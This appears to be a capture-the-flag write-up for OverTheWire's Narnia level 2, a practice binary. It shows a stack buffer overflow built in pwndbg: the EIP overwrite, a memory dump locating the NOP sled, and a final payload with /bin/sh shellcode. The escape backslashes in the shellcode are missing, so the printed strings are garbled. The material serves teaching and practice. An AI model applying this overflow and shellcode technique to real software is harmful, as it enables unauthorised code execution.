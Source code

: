 ### Binary Exploitation

#### POC

Before the attack was conducted on the target machine, the payload was first executed on the attacking box so as to get a better view as to how to correctly format the payload using pwndbg.

{% highlight bash %}
pwndbg> r $(python -c "print 'A'*132 +'B'*4 +'x90'*30 +'x31xc0x50x68x2fx2fx73x68x68x2fx62x69x6ex89xe3x50x53x89xe1xb0x0bxcdx80'")          
Starting program: /home/0xd4y/business/other/overthewire/narnia/2/narnia2 $(python -c "print 'A'*132 +'B'*4 +'x90'*30 +'x31xc0x50x68x2fx2fx73x68x68x2fx62x69x6e  
x89xe3x50x53x89xe1xb0x0bxcdx80'")                                            
                                                                                       
Program received signal SIGSEGV, Segmentation fault.                                                                                                                         0x42424242 in ?? ()                                                                                                                                                          
{% endhighlight %}

Note how the EIP register was successfully overwritten with 4 B’s

After executing this payload, we can view where in the EBP register lies the payload:

{% highlight bash %}
pwndbg> x/100x $esp-200                                                                                                                                                     0xffffcec8:     0xffffdf8b      0x00000000      0xf7fa6000      0xf7fa6000                                                                                                  0xffffced8:     0xffffcf88      0xf7e14fe5      0xf7fa6d20      0x08048534                                                                                                   0xffffcee8:     0xffffcf04      0x00000000      0xffffcf08      0xf7ffd980            0xffffcef8:     0xf7e14fc5      0x08048494      0x08048534      0xffffcf08                                                                                                   0xffffcf08:     0x41414141      0x41414141      0x41414141      0x41414141                                                                                                   0xffffcf18:     0x41414141      0x41414141      0x41414141      0x41414141                                                                                                   0xffffcf28:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffcf38:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffcf48:     0x41414141      0x41414141      0x41414141      0x41414141                                                                                                   0xffffcf58:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffcf68:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffcf78:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffcf88:     0x41414141      0x42424242      0x90909090      0x90909090  
0xffffcf98:     0x90909090      0x90909090      0x90909090      0x90909090  
0xffffcfa8:     0x90909090      0xc0319090      0x2f2f6850      0x2f686873  
0xffffcfb8:     0x896e6962      0x895350e3      0xcd0bb0e1      0x00000080  
0xffffcfc8:     0xf7fa6000      0xf7fa6000      0x00000000      0x6675dc09
{% endhighlight %}

As we can see, the junk bytes lead all the way to 0xffffcf88, and the return address starts at 0xffffcf88 + 4 which is 0xffffcf8c. The NOP sled then begins at 0xffffcf90, and the shellcode starts at 0xffffcfac. Using this information, we can construct the payload to be the following:

{% highlight bash %}
python -c "print 'A'*132 +'x98xcfxffxff' + 'x90'*30 + 'x31xc0x50x68x2fx2fx73x68x68x2fx62x69x6ex89xe3x50x53x89xe1xb0x0bxcdx80'"
{% endhighlight %}
